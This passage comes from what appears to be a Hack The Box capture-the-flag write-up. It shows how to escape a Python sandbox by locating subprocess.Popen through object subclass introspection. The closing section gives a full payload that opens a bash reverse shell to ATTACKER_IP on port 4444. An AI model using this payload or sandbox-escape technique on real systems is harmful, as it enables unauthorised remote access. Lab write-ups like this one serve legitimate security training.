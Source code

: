 Looked for `subprocess.Popen` in subclasses.

![subprocess.Popen subclass](/assets/images/writeups/Code-HTB/13.png)

**subprocess.Popen** (short for Process Open) is a class in Python’s subprocess module that allows you to start and interact with system processes. It is more powerful than os.system() because it gives full control over input, output, and errors of the command being executed.

Looked for the index of **subprocess.Popen**.  

![Index of subprocess.Popen](/assets/images/writeups/Code-HTB/14.png)

Summed up all the previous trials on the code editor and crafted a payload to utilize `subprocess.Popen` to run a Bash reverse shell command.

## Exploitaion

**Crafted Payload**

```bash
().__class__.__base__.__subclasses__()[317](["/bin/bash","-c","bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"])
```
